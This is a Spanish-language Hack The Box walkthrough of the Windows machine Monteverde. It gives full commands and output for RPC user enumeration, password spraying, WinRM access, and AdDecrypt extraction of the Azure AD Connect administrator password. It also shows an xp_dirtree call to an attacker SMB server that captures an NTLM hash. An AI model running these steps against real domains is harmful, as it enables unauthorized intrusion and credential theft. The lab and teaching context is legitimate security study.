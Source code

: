 ```yaml
---
layout: single
title: Monteverde - Hack The Box
excerpt: "Tocamos directorio activo"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-monteverde/monteverde1.png
categories:
  - hackthebox
  - infosec
tags:
  - hackthebox
  - AD
  - Windows 
  - RPC
  - Kerberos
  - Azure 
---
```


# 10.10.10.172 - Monteverde
![](/assets/images/htb-monteverde/monteverde1.png)

-------------------------
# Part 1: Reconocimiento inicial y obtención de credenciales

Puertos abiertos -> 88(kerberos), 135(rpc), 139, 464, 5985(winrm)  
Con crackmapexec podemos hacer un reconocimiento del dominio como sacar el nombre y sistema:  
```console
└─$ crackmapexec smb 10.10.10.172
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
```

## Puerto 135 RPC:
Tenemos suerte y podemos tirar de una null session:  
```console
└─$ rpcclient -U "" 10.10.10.172 -N -c "enumdomusers" | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" >> users.txt
# Una buena lista de usaurios
└─$ rpcclient -U "" 10.10.10.172 -N -c "enumdomgroups"
# Nos copiamos en un archivo de texto los grupos, ya que hay alguno interesante. No tenemos el clásico domain admins pero si Azure Admins
└─$ rpcclient -U "" 10.10.10.172 -N -c "querygroupmem 0xa29" 
# Los de Azure -> 0x1f4, 0x450, 0x641. EL problema esque si preguntamos por queryuser y uno nos da access denied
```

## Puerto 88 kerberos:  
```console
└─$ kerbrute userenum --dc 10.10.10.172 -d megabank.local users.txt
# Todos validos
└─$ /usr/bin/impacket-GetNPUsers megabank.local/ -no-pass -usersfile users.txt  
# Todos tienen el UF_DONT_REQUIRE_PREAUTH seteado, asi que nada de contraseñas.
```

## SMB - Crackmapexec  
Como no tenemos creds, se pueden sacar de maneras como el nombre de la máquina, o...    
El nombre del propio usaurio (u otro usuario por si son pareja). Un error como un piano.  
```console
└─$ crackmapexec smb 10.10.10.172 -u users.txt -p users.txt --continue-on-succes 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Probamos otro ultimo ataque por kerberos al conseguir creds:
```console
└─$ impacket-GetUserSPNs megabank.local/SABatchJobs:SABatchJobs -dc-ip 10.10.10.172 -request
# No hay suerte
```
---------------------------
# Part 2: Acceso al sistema

Seguimos con SMB. Voy mostrando los unicos lugares que no están vacíos    
```console
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
# Tenemos acceso a "azure_uploads", "IPC$", "NELOGON", "SYSVOL" y users$"" 
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r "users$"
# Hay varias carpetas "dgalanos", "mhope", "smorgan" y "roleary". Solo mhope tiene un archivo "azure.xml"
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --download "users$/mhope/azure.xml"
└─$ cat 10.10.10.172-users_mhope_azure.xml 
<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<S N="Password">4n0therD4y@n0th3r$</S>
```
El mhope este era uno de los usaurios que obtuvimos del RPC, y esta parece su contraseña.  
```console
└─$ crackmapexec smb 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
```
En efecto. Vuelvo a probar el GetUsersSPNs con estas nuevas creds pero tampoco. Con el smbmap no encuentro nada más que con la otra chica.  
```console
└─$ crackmapexec winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
└─$ evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'  
*Evil-WinRM* PS C:\Users\mhope\Documents>
```
Tras una enumeración con mi script de windows  
- Nuestro mhope pertenece a "Azure Admins" y "Domain Users"  
- Hay backups del SAM y system en C:\Windows\System32\config\  

---------------------------
# Part 3: Explotación de Azure AD

Al ser un dominio Azure está configurado de manera diferente, remota. Al ser algo instalado de fuera habría que mirar en "Program Files":  
```console
*Evil-WinRM* PS C:\Program Files> dir | findstr "Azure"
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

En este [articulo](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/) hablan de uan vuln en Azure AD que permite obtener
las creds del Administrador subiendo dos archivos:  
- Habría que descargarse la [release](https://github.com/VbScrub/AdSyncDecrypt/releases/download/v1.0/AdDecrypt.zip) y subirla al sistema
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload /home/cucuxii/Maquinas/htb/Monteverde/mcrypt.dll
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload /home/cucuxii/Maquinas/htb/Monteverde/AdDecrypt.exe
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Desktop\AdDecrypt.exe -FullSQL
Username: administrator
Password: d0m@in4dminyeah!
```

Ahora te podrias conectar como admin ```evil-winrm -i 10.10.10.172 -u 'administrator' -p 'd0m@in4dminyeah!'```

--------------------------------------
# Extra: Analizando la vuln de Azure

Investigué mas en profundidad esta vuln gracias a estos articulos: 
[Fuente](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)    
[FUente 2](https://blog.xpnsec.com/azuread-connect-for-redteam/)    
[Video](https://www.youtube.com/watch?v=JEIR5oGCwdg)    

El servicio "Azure AD Connect" conecta el directorio activo local con la plataforma de dominios de Azure. Dicho servicio, (para gestionar desde
Azure tu sistema) necesita credenciales de administrador. 
El zip que te descargas tiene estos dos programas que subes:   
- **AdDecrypt.exe** -> Las creds se sacan de una SQL llamada "ADSync" (tablas mms_management y mms_server) y se desencriptan.     
- **mcrypt.dll** -> Codigo en C# que se encarga de descenriptar lo sacado antes (DPAPI)  

Ivestigando el articulo de esa persona podemos navegar por las bases de datos que dice:  
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "select name from sys.databases"
master, tempdb, model, msdb, ADSync

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "xp_dirtree '\\10.10.14.12\carpeta'"
└─$ impacket-smbserver carpeta $(pwd) -smb2support

[*] MONTEVERDE$::MEGABANK:aaaaaaaaaaaaaaaa:51e2852a7fe64f40ec474fe257c9eec8:0101000000000000001e935bacfdd80160fc5fcc717a077e00000000010010005700460047007800730059006d005800030010005700460047007800730059006d00580002001000670074006d006d00790075006e00610004001000670074006d006d00790075006e00610007000800001e935bacfdd80106000400020000000800300030000000000000000000000000300000c42f279549204924bbc39fce074dc6fdd4df5f988eee2073af01708ebd8864090a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310032000000000000000000
```
Vemos que se ha enviado un hash por ahí que hemos interceptado, es decir alguien ( megabank.local) se ha autenticado contra alguien (Azure).  
Si vemos el script del artículo e intentamos replicar la query:  
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
Invalid object name 'mms_management_agent'

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "use ADSync; select private_configuration_xml,encrypted_configuration from mms_management_agent"
 <forest-name>MEGABANK.LOCAL</forest-name>
 <forest-port>0</forest-port>
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
 <forest-login-user>administrator</forest-login-user>
 <forest-login-domain>MEGABANK.LOCAL 8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "use ADSync; select keyset_id,instance_id,entropy from mms_server_configuration"
keyset_id   instance_id                          entropy
          1 1852B527-DD4F-4ECF-B541-EFCCBFF29E31 194EC2FC-F186-46CF-B44D-071EB61F49CD
```

Obtenemos las dos cosas que necesita para obtener las credenciales.  La cadena "8AAAAAgAAABQhCBBnwTpdfQE6uNJe..." está en base 64, si se decodifica
salen caracteres sin sentido (que supongo que será el texto cifrado). Si le haces ```xxd -ps | xargs``` obtendrías todos los bytes. Esto se lo pasa al
**mcrypt.dll** que lo rompe.  

Mas detalles se escapan de mi entendimiento, pero al menos hemos sacado una idea de lo que está haciendo a grosso modo.  